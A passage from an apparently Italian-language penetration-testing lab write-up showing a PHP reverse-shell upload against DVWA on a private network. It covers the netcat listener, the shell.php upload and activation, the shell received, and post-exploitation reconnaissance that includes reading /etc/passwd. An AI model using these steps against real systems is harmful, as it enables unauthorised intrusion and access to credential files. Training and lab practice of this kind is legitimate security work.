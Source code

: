 **Analisi tecnica del payload**:
- **`fsockopen()`**: Crea connessione TCP verso l'attacker
- **`proc_open()`**: Avvia shell con controllo completo I/O
- **Array descriptor**: Redirige stdin/stdout/stderr verso il socket

#### Exploitation Process

**Step 1 - Listener Setup**:
```bash
# Terminal 1 - Kali Linux
nc -lnvp 4444
listening on [any] 4444 ...
```

**Step 2 - File Upload**:
```bash
# Upload tramite interfaccia web DVWA
# File: shell.php
# Result: Upload successful
```

**Step 3 - Shell Activation**:
```bash
# Navigate to: http://192.168.1.100/DVWA/hackable/uploads/shell.php
```

**Step 4 - Shell Received**:
```bash
connect to [192.168.1.50] from (UNKNOWN) [192.168.1.100] 41888
$ whoami
www-data
$ pwd
/var/www/html/DVWA/hackable/uploads
$ uname -a
Linux serverubuntu 5.15.0-72-generic #79-Ubuntu SMP Wed Apr 19 08:22:18 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
```

#### Post-Exploitation Reconnaissance

Una volta ottenuta la shell, è stata condotta reconnaissance del sistema target:

```bash
# System information gathering
$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash

# Network configuration
$ ip addr show
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN
    inet 127.0.0.1/8 scope host lo
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP
    inet 192.168.1.100/24 brd 192.168.1.255 scope global dynamic enp0s3

# Web directory structure
$ ls -la /var/www/html/DVWA/
total 104
drwxr-xr-x 10 www-data www-data  4096 Jul 24 15:45 .
drwxr-xr-x  3 root     root      4096 Jul 24 15:30 ..
-rw-r--r--  1 www-data www-data  2156 Jul 24 15:45 .htaccess
drwxr-xr-x  8 www-data www-data  4096 Jul 24 15:45 .git
```
